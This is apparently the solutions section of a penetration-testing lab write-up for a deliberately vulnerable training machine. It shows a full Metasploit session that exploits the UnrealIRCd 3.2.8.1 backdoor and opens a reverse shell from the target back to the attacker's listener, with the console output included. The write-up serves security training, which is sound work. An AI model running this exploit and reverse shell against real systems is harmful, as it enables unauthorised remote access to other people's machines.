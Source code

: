 # Solutions

> Unreal IRCd

The Unreal IRCd application running on the system has a remote code execution vulnerability which can be exploited using the [UnrealIRCD 3.2.8.1 Backdoor Command Execution module](https://www.rapid7.com/db/modules/exploit/unix/irc/unreal_ircd_3281_backdoor).

```
msf6 > use exploit/unix/irc/unreal_ircd_3281_backdoor
msf6 exploit(unix/irc/unreal_ircd_3281_backdoor) > options

Module options (exploit/unix/irc/unreal_ircd_3281_backdoor):

   Name    Current Setting  Required  Description
   ----    ---------------  --------  -----------
   RHOSTS  10.0.2.15        yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT   6697             yes       The target port (TCP)


Payload options (cmd/unix/reverse):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  eth0             yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Automatic Target

msf6 exploit(unix/irc/unreal_ircd_3281_backdoor) > run

[*] Started reverse TCP double handler on 10.0.2.4:4444
[*] 10.0.2.15:6697 - Connected to 10.0.2.15:6697...
    :irc.TestIRC.net NOTICE AUTH :*** Looking up your hostname...
[*] 10.0.2.15:6697 - Sending backdoor command...
[*] Accepted the first client connection...
[*] Accepted the second client connection...
[*] Command: echo 5gzSzm24G21PeMKe;
[*] Writing to socket A
[*] Writing to socket B
[*] Reading from sockets...
[*] Reading from socket B
[*] B: "5gzSzm24G21PeMKe\r\n"
[*] Matching...
[*] A is input...
[*] Command shell session 2 opened (10.0.2.4:4444 -> 10.0.2.15:33683) at 2021-03-07 18:11:39 -0500

id
uid=1121(boba_fett) gid=100(users) groups=100(users),999(docker)
```

> And many more..

There's many more exploits that can be found, here's 2 ressources that describe them greatly:

https://stuffwithaurum.com/2020/04/17/metasploitable-3-linux-an-exploitation-guide/

https://www.thomaslaurenson.com/blog/2018-07-08/metasploitable3-pentesting-the-ubuntu-linux-version-part1/
